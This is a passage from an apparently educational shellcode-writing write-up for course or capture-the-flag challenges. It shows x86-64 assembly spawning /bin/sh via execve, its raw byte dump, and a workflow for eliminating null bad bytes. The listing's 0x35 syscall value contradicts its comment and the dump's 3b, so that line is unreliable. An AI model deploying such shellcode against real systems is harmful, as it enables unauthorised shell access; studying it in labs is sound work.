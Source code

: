 This will turn `shellcode.s` into `shellcode.s.raw` - raw bytes you can pipe to a binary (or whatever), and `shellcode.s.elf`, a binary you can just run or debug in GDB to test your shellcode.

# Shellcode Modification Workflow

As you work through the challenges, various issues will be thrown at you and whilst the excellent lecture material that accompanies the challenges does tell you how to work around these, I wanted to explain some of my mistakes and the process I found helpful.

## Worked Example

Bad bytes are a real and common thing with shellcode, taking an example of some basic code to `execve /bin/sh` :

```bash
~$ cat pop_shell.s
.global _start
_start:
.intel_syntax noprefix
    mov rax, 0x35                  # syscall number of execve (59) goes in rax
    mov rbx, 0x0068732f6e69622f    # move "/bin/sh\0" into rbx
    push rbx                       # push "/bin/sh\0" onto the stack
    mov rdi, rsp                   # point rdi at the string on stack (arg 1 to execve)
    mov rsi, 0                     # makes the second argument, argv, NULL
    mov rdx, 0                     # makes the third argument, envp, NULL
    syscall                        # trigger the system call
```

Now if we load this into a program that filters null bytes our shellcode will be affected, if we look at the raw shellcode bytes with `xxd` we see it's full of null bytes:

```bash
~$ ./compile_shellcode.sh pop_shell.s
~$ xxd -g 1 pop_shell.s.raw
00000000: 48 c7 c0 3b **00 00 00** 48 bb 2f 62 69 6e 2f 73 68  H..;...H./bin/sh
00000010: **00** 53 48 89 e7 48 c7 c6 **00 00 00 00** 48 c7 c2 **00**  .SH..H......H...
00000020: **00 00 00** 0f 05
```

So if we have these 'bad bytes', how do we work it through? I follow a simple process:

1. Visualise where the bad bytes are in the shellcode
2. Understand which part of the instructions they're in
3. Enumerate alternatives
4. Select best option (this becomes important as other constraints come in, e.g. length).

So let's do it:

### Visualise bad bytes

Because we created an ELF when we compiled, we can get nice disassembly of the shellcode with tools like `objdump`:

![Shellcode%20Writing%206968d7b9f2234368ae71a3b334d5a40b/Untitled.png](Shellcode%20Writing%206968d7b9f2234368ae71a3b334d5a40b/Untitled.png)
